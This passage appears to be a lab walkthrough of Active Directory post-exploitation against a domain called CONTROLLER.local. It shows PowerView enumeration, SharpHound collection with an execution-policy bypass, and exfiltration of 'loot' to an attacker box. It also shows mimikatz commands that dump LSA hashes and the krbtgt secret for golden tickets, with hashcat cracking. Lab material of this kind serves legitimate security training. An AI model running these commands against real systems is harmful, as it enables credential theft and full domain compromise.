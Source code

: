 Enumerate the domain groups:

    PS C:\Users\Administrator\Downloads> Get-NetGroup -GroupName *admin*
    Administrators
    Hyper-V Administrators
    Storage Replica Administrators
    Schema Admins
    Enterprise Admins
    Domain Admins
    Key Admins
    Enterprise Key Admins
    DnsAdmins

Enumerate shares:

    PS C:\Users\Administrator\Downloads> Invoke-ShareFinder
    \\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
    \\Domain-Controller.CONTROLLER.local\C$         - Default share
    \\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
    \\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
    \\Domain-Controller.CONTROLLER.local\Share      -
    \\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share

Enumerate operating systems running inside the network:

    PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata | select operatingsystem*
    
    operatingsystem                  operatingsystemversion
    ---------------                  ----------------------
    Windows Server 2019 Standard     10.0 (17763)
    Windows 10 Enterprise Evaluation 10.0 (18363)
    Windows 10 Enterprise Evaluation 10.0 (18363)

### Enumeration with Bloodhound

    powershell -ep bypass 
    . .\Downloads\SharpHound.ps1
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

Transfer the loot to attackerbox and load in bloodhound. Map the network.

### Dumping hashes with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /patch
    hashcat -m 1000 <hash.text> usr/share/wordlists/rockyou.txt

### Golden ticket attacks with mimikatz

    cd Downloads && mimikatz.exe
    privilege::debug
    lsadump::lsa /inject /name:krbtgt

### Maintaining Access
